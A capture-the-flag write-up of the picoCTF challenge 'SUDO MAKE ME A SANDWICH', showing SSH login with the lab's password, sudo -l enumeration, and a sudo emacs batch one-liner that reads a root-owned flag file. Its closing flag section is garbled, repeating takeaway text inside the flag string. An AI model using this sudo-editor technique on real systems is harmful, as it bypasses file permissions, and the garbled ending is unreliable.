


# SUDO MAKE ME A SANDWICH

**Category:** General Skills
**Difficulty:** Easy
**Author:** Darkraicg492

---

## Challenge Description

The challenge gives SSH access to a remote machine and asks us to read the flag.

Connection command:

```bash
ssh -p 55635 ctf-player@green-hill.picoctf.net
```

Password:

```text
430838f7
```

The hints are:

```text
1. What is sudo?
2. How do you know what permission you have?
```

These hints suggest that the flag cannot be read directly with normal user permissions, but it may be possible using allowed `sudo` privileges.

---

## Connecting to the Server

I connected to the remote machine using SSH:

```bash
ssh -p 55635 ctf-player@green-hill.picoctf.net
```

After logging in, I listed the current directory:

```bash
ls
```

The file `flag.txt` was present.

I tried to read it normally:

```bash
cat flag.txt
```

But the result was:

```text
cat: flag.txt: Permission denied
```

I also tried:

```bash
sudo flag.txt
```

but this failed because `sudo` must run a command, not a filename.



---

## Checking File Permissions

To understand why the file could not be read, I checked the permissions:

```bash
ls -la
```

The flag file had the following permissions:

```text
-r--r----- 1 root root 31 flag.txt
```

This means the file is owned by `root`, and the current user `ctf-player` does not have permission to read it directly.

---

## Checking Sudo Permissions

The next step was to check what commands the user is allowed to run with `sudo`:

```bash
sudo -l
```

The output showed:

```text
User ctf-player may run the following commands on challenge:
    (ALL) NOPASSWD: /bin/emacs
```

This means that `ctf-player` can run `/bin/emacs` as root without a password.

---

## Reading the Flag with Emacs

Since Emacs can read files, and we are allowed to run Emacs as root, I used Emacs in batch mode to read `flag.txt` and print its content to the terminal:

```bash
sudo /bin/emacs --batch --eval '(with-temp-buffer (insert-file-contents "flag.txt") (princ (buffer-string)))'
```

This command does the following:

```text
1. Runs /bin/emacs with sudo privileges.
2. Uses batch mode so Emacs does not open an interactive editor.
3. Opens flag.txt inside a temporary buffer.
4. Prints the buffer content to the terminal.
```

The command successfully printed the flag.



---

## Full Command Sequence

```bash
ssh -p 55635 ctf-player@green-hill.picoctf.net

ls
cat flag.txt

ls -la
sudo -l

sudo /bin/emacs --batch --eval '(with-temp-buffer (insert-file-contents "flag.txt") (princ (buffer-string)))'
```

---

## Investigation Summary

```text
1. Connected to the server using SSH.
2. Found flag.txt in the home directory.
3. Tried to read it with cat, but got Permission denied.
4. Checked file permissions with ls -la.
5. Found that flag.txt is owned by root.
6. Checked sudo permissions using sudo -l.
7. Discovered that ctf-player can run /bin/emacs as root without a password.
8. Used Emacs batch mode to read flag.txt.
9. Recovered the flag.
```

---

## Tools Used

```text
ssh
ls
cat
sudo
emacs
```

---

## Key Takeaways

* `sudo` runs commands with elevated privileges.
* `sudo -l` shows which commands the current user is allowed to run.
* A file owned by root may not be readable by a normal user.
* If a user can run an editor as root, that editor can often be used to read protected files.
* Emacs batch mode can read and print a file directly from the terminal.

---

## Final Flag

````text
picoCTF{ as root, that editor can often be used to read protected files.
- Emacs batch mode can read and print a file directly from the terminal.

---

## Final Flag

```text
picoCTF{...REDACTED...}
````
